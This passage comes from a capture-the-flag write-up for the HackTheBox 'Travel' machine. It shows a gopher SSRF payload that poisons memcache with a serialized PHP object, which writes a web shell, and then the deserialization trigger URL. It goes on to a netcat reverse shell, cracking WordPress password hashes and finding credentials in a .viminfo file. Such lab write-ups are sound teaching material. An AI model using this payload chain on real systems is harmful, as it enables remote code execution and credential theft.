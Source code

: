 ```
gopher://0:11211/_%0d%0aset%20xct_0375e1e45d8573844bcfb43ffe0ca90a%204%200%20103%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:8:%22snow.php%22%3Bs:4:%22data%22%3Bs:32:%22%3C%3Fphp%20system%28%24_REQUEST%5B%22c%22%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a
```

We're ready to rock & roll now, first we populate the memcache with the payload:

![image-20200519220457976](/assets/images/htb-writeup-travel/image-20200519220457976.png)

Then we go to `http://blog.travel.htb/awesome-rss/?debug=1&custom_feed_url=http://10.10.14.33/customfeed.xml` to trigger the deserialization.

And finally we test and see that our command shell has successfully been written. We have RCE.

![image-20200519220622095](/assets/images/htb-writeup-travel/image-20200519220622095.png)

We'll get a reverse shell with netcat.

![image-20200519220905618](/assets/images/htb-writeup-travel/image-20200519220905618.png)

## Enumeration

We got a shell but we're still running as www-data and haven't found the user flag yet. After looking around the box we find a backup of the wordpress instance in the **/opt** directory.

![image-20200519221106322](/assets/images/htb-writeup-travel/image-20200519221106322.png)

The database backup contains the hashed values for the users.

![image-20200519221232400](/assets/images/htb-writeup-travel/image-20200519221232400.png)

The password for the **lynik-admin** user is cracked with john.

![image-20200519221423280](/assets/images/htb-writeup-travel/image-20200519221423280.png)

![image-20200519221457266](/assets/images/htb-writeup-travel/image-20200519221457266.png)

We can now log in with SSH to the box and get the user flag.

![image-20200519221545913](/assets/images/htb-writeup-travel/image-20200519221545913.png)

## LDAP recon

The machine is running a container for the wordpress instance we saw earlier but there's also another container running an LDAP server as indicated in the host file.

![image-20200519221749649](/assets/images/htb-writeup-travel/image-20200519221749649.png)

We can query the server with ldapsearch but we don't have credentials so it returns no objects.

![image-20200519222048687](/assets/images/htb-writeup-travel/image-20200519222048687.png)

In the home directory, the `.viminfo` file contains a password.
